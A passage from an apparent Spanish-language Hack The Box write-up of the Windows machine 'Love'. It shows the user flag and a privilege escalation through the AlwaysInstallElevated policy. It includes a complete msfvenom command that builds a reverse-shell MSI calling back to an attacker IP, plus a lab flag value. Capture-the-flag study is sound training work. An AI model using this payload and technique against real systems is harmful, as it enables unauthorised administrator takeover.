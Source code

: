 Con la shell obtenida, ya puedo acceder al directorio del usuario no privilegiado Phoebe y visualizar la flag.

```
type user.txt

8ad895c498ac7a42f8aa349704b6ddb0
```

## Escalada de privilegios

Para la escalada de privilegios en este sistema Windows, he transferido el ejecutable de `WinPEAS` a la máquina víctima y lo he ejecutado. Tras revisar los resultados arrojados, uno de los más interesantes y que el propio script te refleja en color rojo es el que se refleja en la siguiente imagen:

![Agujero de seguridad descubierto por el script WinPEAS](/assets/img/HTB/Love/alwaysinstallelevated.png)

La política "AlwaysInstallElevated" se encuentra habilitada en el registro de Windows, una configuración que puede explotarse para escalar privilegios. Los pasos a seguir se reflejan en este [artículo](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/). Lo primero a realizar es crear un ejecutable malicioso en formato .msi que se encargará de enviar una shell como usuario Administrador a mi máquina de atacante. Este ejecutable lo he creado mediante la utilidad `MSFVenom`.

```
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.75 LPORT=445 -f msi > payload.msi

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
```

Una vez creado el ejecutable, lo transfiero a la máquina, me pongo a la escucha por el puerto definido al crear el fichero y lo ejecuto con las flags "/quiet", "/i" y "/qn", obteniendo así una conexión en mi máquina de atacante y pudiendo visualizar la flag final.

